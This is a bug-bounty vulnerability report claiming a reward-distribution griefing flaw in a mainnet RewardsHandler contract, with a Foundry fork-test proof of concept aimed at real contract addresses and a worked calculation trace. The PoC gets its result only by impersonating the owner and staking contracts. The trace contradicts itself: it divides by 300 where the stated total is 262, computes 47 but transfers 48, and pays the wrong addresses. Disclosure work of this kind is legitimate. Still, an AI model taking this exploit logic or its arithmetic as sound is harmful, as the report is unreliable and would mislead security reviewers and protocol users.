


## Title: Potential Griefing in Reward Distribution

### Description

#### Intro

The issue lies in the potential for a bad actor to manipulate the reward distribution system by disproportionately increasing his allocation points in fnftId. If exploited on the mainnet, this could lead to an unfair distribution of rewards, where the bad actor could claim a larger portion and inparticular the user gets no rewards in return due to bad actor. This could undermine the integrity of the system, discourage participation, and potentially lead to loss of funds/rewards for other participants.

#### Vulnerability Details

this vulnerability lies within the updateLPShares() and rewardsOwed() of the RewardsHandler contract. updateLPShares() function allows a user to update the allocation points for a specific fnftId. The allocation points are used to determine the proportion of rewards a user can claim in rewardsOwed() function.by manipulating this functions,bad actor can profit and damage the user rewards. below i have attached coded poc for attack demonstration and detailed series of steps perfomed

#### Impact 

This issue could lead to an unfair distribution of rewards, where a bad actor could claim a larger portion of the rewards and infact the user get no rewards in return. This could discourage other participants from engaging with the system

#### Refereneces

https://etherscan.io/address/0xa4e7f2a1edb5ad886baa09fb258f8aca7c934ba6?utm_source=immunefi#code

### Proof of Concept

this vulnerability will be triggered from the **`staking`** contract using _stake and handleAdditionalDeposit() functions,for simplicity and clear understanding i have used the role of address(stakingContract) in **`RewardsHandler`** contract for calling the updateLpShare() and claimRewards() functions.below is the coded POC using fork testing in foundry and with series of steps explained

note:comment down the divided area for the before attack comparison or i have attached poc output in png for both before and after attack.

```
// SPDX-License-Identifier: MIT AND UNLICENSED
pragma solidity ^0.8.0;

import {console2} from "forge-std/console2.sol";
import {Test} from "forge-std/Test.sol";


interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);

    event Transfer(address indexed from, address indexed to, uint256 value);
    event Approval(address indexed owner, address indexed spender, uint256 value);
}
interface RewardsHandler {
    event OwnershipTransferred(address indexed previousOwner, address indexed newOwner);
    function PRECISION() external view returns (uint256);
    function STAKING() external view returns (address);
    function claimRewards(uint256 fnftId, address caller) external returns (uint256);
    function erc20Fee() external view returns (uint256);
    function erc20multiplierPrecision() external view returns (uint256);
    function getAllocPoint(uint256 fnftId, address token, bool isBasic) external view returns (uint256);
    function getRewards(uint256 fnftId, address token) external view returns (uint256);
    function manualMapRVSTBasic(uint256[] memory fnfts, uint256[] memory allocPoints) external;
    function manualMapRVSTLP(uint256[] memory fnfts, uint256[] memory allocPoints) external;
    function manualMapWethBasic(uint256[] memory fnfts, uint256[] memory allocPoints) external;
    function manualMapWethLP(uint256[] memory fnfts, uint256[] memory allocPoints) external;
    function manualSetAllocPoints(uint256 _totalBasic, uint256 _totalLP) external;
    function owner() external view returns (address);
    function receiveFee(address token, uint256 amount) external;
    function renounceOwnership() external;
    function rvstBasicBalances(uint256) external view returns (uint256 allocPoint, uint256 lastMul);
    function rvstBasicGlobalMul() external view returns (uint256);
    function rvstLPBalances(uint256) external view returns (uint256 allocPoint, uint256 lastMul);
    function rvstLPGlobalMul() external view returns (uint256);
    function setAddressRegistry(address registry) external;
    function setStakingContract(address stake) external;
    function totalBasicAllocPoint() external view returns (uint256);
    function totalLPAllocPoint() external view returns (uint256);
    function transferOwnership(address newOwner) external;
    function updateBasicShares(uint256 fnftId, uint256 newAllocPoint) external;
    function updateLPShares(uint256 fnftId, uint256 newAllocPoint) external;
    function wethBasicBalances(uint256) external view returns (uint256 allocPoint, uint256 lastMul);
    function wethBasicGlobalMul() external view returns (uint256);
    function wethLPBalances(uint256) external view returns (uint256 allocPoint, uint256 lastMul);
    function wethLPGlobalMul() external view returns (uint256);
}

contract FortTest_revest is Test{
    RewardsHandler public rewards;
    address staking = 0x86169239aeeEdefb9A571c952B809F2681c0e209;
    address owner = 0x801e08919a483ceA4C345b5f8789E506e2624ccf;
    address weth = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address rvst = 0x120a3879da835A5aF037bB2d1456beBd6B54d4bA;
    function setUp() public{
        rewards =  RewardsHandler(0xA4E7f2a1EDB5AD886baA09Fb258F8ACA7c934ba6);
    }

    function testTemp() public {
        
        vm.prank(address(owner));
        rewards.manualSetAllocPoints(1, 1);//setting totalBasicAllocPoint and totalLPAllocPoint to 1
        uint wethLpglobal = rewards.wethLPGlobalMul();//fetching wethLPGlobalMul
        console2.log("wethLpGlobalMul before : ",wethLpglobal);
        uint wethbasicglobal = rewards.wethBasicGlobalMul();//fetching wethLPGlobalMul
        console2.log("wethBasicGlobalMul before : ",wethbasicglobal);
        

        vm.startPrank(address(staking));
        rewards.updateLPShares(299,5);//updating shares of fnftId:299 with 5 newAllocPoint
         rewards.updateLPShares(300,4);//updating shares of fnftId:300 with 4 newAllocPoint
         rewards.updateLPShares(301,2);//updating shares of fnftId:301 with 2 newAllocPoint
        vm.stopPrank();

//------------------------------------------------------------------------------------------------------------------------------
         //=> now watching the users transactions, bad actor or griefer updates his shares of  fnftId:1 with 250 newAllocPoint
        vm.startPrank(address(staking));
         rewards.updateLPShares(399,250);
        vm.stopPrank();
//------------------------------------------------------------------------------------------------------------------------------
 
        vm.startPrank(address(5));
        deal(address(weth),address(5),100);
    
        IERC20(weth).approve(address(rewards), 100);
        rewards.receiveFee(weth, 100);//user with address 5 calling the receive function with amount 100 for token `weth`
        vm.stopPrank();
      
        uint wethLpglobal1 = rewards.wethLPGlobalMul();//fetching the wethLpglobalMul after the receiveFee function for the update value of wethLpglobalMul
        console2.log("wethLpglobalMul after : ",wethLpglobal1);
        uint rewa1 = rewards.getRewards(299,weth);//fetching the total rewards for fnftId 299
        console2.log("Rewards for id 299 is :",rewa1);
         uint rewa2 = rewards.getRewards(300,weth);//fetching the total rewards for fnftId 300
        console2.log("Rewards for id 300 is :",rewa2);
        uint rewa3 = rewards.getRewards(301,weth);//fetching the total rewards for fnftId 301
        console2.log("Rewards for id 301 is :",rewa3);
//------------------------------------------------------------------------------------------------------------------------------
         
        uint reward_griefer = rewards.getRewards(399,weth);//fetching the total rewards for fnftId 399
        console2.log("Rewards for id 399 i.e Griefer/bad actor is :",reward_griefer);
        
        vm.prank(address(staking));
         uint re = rewards.claimRewards(399, address(50));//here the griefer claim all the rewards
         console2.log("claimReward return value : ",re);
//------------------------------------------------------------------------------------------------------------------------------
 
    }   

    

}
```
##### Below is the series of steps executed in above coded POC

```

totalLpAllocPoint = 1

totalBasicAllocPoint = 1
updateLpshares(299,5)

	totalLpAllcoation=6
	
	wethLPBalances[2].allocPoint = 5
	
	wethLPBalances[2].lastMul = 1000016079683536019878780989
	
	rvstLPBalances[2].allocPoint = 5
	
	rvstLPBalances[2].lastMul = 1000016079683536019878780989

updateLpshares(300,4)

	totalLpAllcoation=10
	
	wethLPBalances[2].allocPoint = 4
	
	wethLPBalances[2].lastMul = 1000016079683536019878780989
	
	rvstLPBalances[2].allocPoint = 4
	
	rvstLPBalances[2].lastMul = 1000016079683536019878780989

updateLpshares(301,2)

	totalLpAllcoation=12
	
	wethLPBalances[2].allocPoint = 2
	
	wethLPBalances[2].lastMul = 1000016079683536019878780989
	
	rvstLPBalances[2].allocPoint = 2
	
	rvstLPBalances[2].lastMul = 1000016079683536019878780989
	
updateLpshares(399,250)//bad actor

	totalLpAllcoation=262

	wethLPBalances[1].allocPoint = 250

	wethLPBalances[1].lastMul = 1000016079683536019878780989

	rvstLPBalances[1].allocPoint = 250

	rvstLPBalances[1].lastMul = 1000016079683536019878780989

deal(address(weth),address(5),100);

receiveFee(weth, 100)

	IERC20(token).safeTransferFrom(msg.sender, address(this), amount); //now balance is 100
	*totalLPAllocPoint = 262
	*totalBasicAllocPoint = 1
	wethLpGlobalMul = 1000016079683536019878780989
	wethBasicGlobalMul = 1000000010304280839598791323
	basicMulInc = (100*10^27/2)/1= 50000000000000000000000000000
	lpMulInc = (100*10^27/2)/300  = 190839694656488549618320610.68
	*wethBasicGlobalMul = wethBasicGlobalMul+lp=51000000010304280839598791323
		*wethLpGlobalMul = wethLpGlobalMul+lp=1190855774340024569497101599

globalbalance = weth.balanceof(rewardsHandler) = 100

claimRewards(399,address(50)
	amount={
		globalBalance = 100
		lprewards = (1190855774340024569497101599-1000016079683536019878780989)*250
							= 47169811320754716981132075400
		basicRewards = (51000000010304280839598791323-0)*0
		tokenamount = lprewards+basicrewards/10^27
								= 47
	}	=47
	*lpBalance.lastMul or wethLPBalances[1].lastMul = 1190855774340024569497101599//latest
	*basicBalance.lastMul = 1000000010304280839598791323//latest
	transfer(address(50),48)//fee tranfered to address(50) i.e bad actor
	
	
claimRewards(299,address(299))//let's say address of fnftid owner is address(299)
	amount = ((1190855774340024569497101599-1000016079683536019878780989)*5/10^27) =>  0.95 ~ 0
	transfer(address(100),0)//due to bad actor user gets nothing
	
claimRewards(300,address(300))//let's say address of fnftid owner is address(300)
	amount = ((1190855774340024569497101599-1000016079683536019878780989)*4/10^27) =>0.76 ~ 0
	transfer(address(100),0)//due to bad actor user gets nothing

claimRewards(301,address(301))//let's say address of fnftid owner is address(301)
	amount = ((1190855774340024569497101599-1000016079683536019878780989)*2/10^27) => 0.38 ~ 0
	transfer(address(100),0)//due to bad actor user gets nothing	

```
* Before Attack



* After Attack

